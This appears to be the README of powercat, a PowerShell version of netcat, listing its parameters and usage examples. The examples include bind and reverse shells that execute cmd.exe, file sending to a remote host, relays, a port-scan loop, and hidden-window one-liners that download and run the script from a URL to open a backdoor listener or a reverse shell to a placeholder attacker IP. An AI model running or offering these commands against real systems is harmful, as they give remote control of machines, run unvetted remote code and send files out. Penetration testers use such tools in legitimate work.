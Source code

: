 #powercat

Netcat: The powershell version. (v2 compatible)

### Parameters:
    -l    Listen for a connection.                             [Switch]
    -c    Connect to a listener.                               [String]
    -p    The port to connect to, or listen on.                [String]
    -e    Execute. (GAPING_SECURITY_HOLE)                      [String]
    -r    Relay. Formats: "-r 10.1.1.1:443", "-r 443"          [String]
    -t    Timeout option. Default: 60                          [int32]
### General Usage Examples:
    Listen and Connect:
        powercat -l 443
        powercat -c 10.1.1.10 443
    Serve and Send Shells:
        powercat -l -e cmd.exe 443
        powercat -c 10.1.1.10 -e cmd.exe 443
    Output to a File:
        powershell -c '. .\powercat.ps1; powercat -l 443' > C:\outputfile
    Send a File (String):
        'The string I want to send' | powercat -l 443
        [IO.File]::ReadAllText('C:\inputfile') | powercat -c 10.1.1.10 443
### powercat Relay Examples:
    Listener to Client Relay:
        powercat -l -p 8000 -r 10.1.1.16:443
    Listener to Listener Relay:
        powercat -l -p 8000 -r 4444
    Client to Listener Relay:
        powercat -c 10.1.1.16 -p 443 -r 4444
    Client to Client Relay:
        powercat -c 10.1.1.16 -p 443 -r 10.1.1.16:3389
### Misc Examples:
    Download and Execute Powercat Backdoor Listener One-Liner:
        powershell -nop -w h -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -l 8000 -e cmd.exe"
    Download and Execute Powercat Reverse Shell One-Liner (Replace <Attacker IP>):
        powershell -nop -w h -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c <ATTACKER IP> 443 -e cmd.exe"
    Basic TCP Port Scanner:
        foreach($p in (21,22,80,443)){powercat -c 10.1.1.10 -p $p -t 1 -Verbose}